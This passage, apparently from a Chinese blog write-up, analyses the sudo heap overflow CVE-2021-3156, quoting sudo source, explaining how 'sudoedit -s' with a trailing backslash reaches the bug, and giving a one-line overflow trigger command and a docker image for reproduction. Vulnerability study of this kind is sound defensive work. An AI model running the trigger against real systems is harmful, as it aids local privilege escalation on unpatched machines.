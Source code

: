 所以下面还是查看sudo的源码，有这样一个漏洞：



```c
127 #define DEFAULT_VALID_FLAGS     (MODE_BACKGROUND|MODE_PRESERVE_ENV|MODE_RESET_HOME|MODE_LOGIN_SHELL|MODE_NONINTERACTIVE|MODE_SHELL) 
... 
249     int valid_flags = DEFAULT_VALID_FLAGS; 
... 
267     proglen = strlen(progname); 
268     if (proglen > 4 && strcmp(progname + proglen - 4, "edit") == 0) { 
269         progname = "sudoedit"; 
270         mode = MODE_EDIT; 
271         sudo_settings[ARG_SUDOEDIT].value = "true"; 
272     }
```



在268行，如果程序名的后四位为`edit`，就设置`mode`为`MODE_EDIT`



通过下面的命令，就能同时设置`MODE_EDIT`和`MODE_SHELL`，成功到达存在堆溢出漏洞的代码了：



```plain
sudoedit -s
```



然后想要实现堆溢出，就需要反斜杠参与，可以尝试下面的命令进行溢出



```plain
sudoedit -s '\' `perl -e 'print "A" x 65536'`
```



从攻击者的角度思考，这个堆溢出漏洞是很理想的：



1. `user_args`申请的堆的大小是可控的
2. 堆溢出的内容也是可控的
3. 攻击者可以向溢出的内容加入null终止符



### 漏洞复现


通过提前搭建好的docker镜像来复现，里面有sudo源码，exp，pwndbg，复现的同时也便于进行分析



```plain
docker pull chenaotian/cve-2021-3156
```



### 漏洞修复
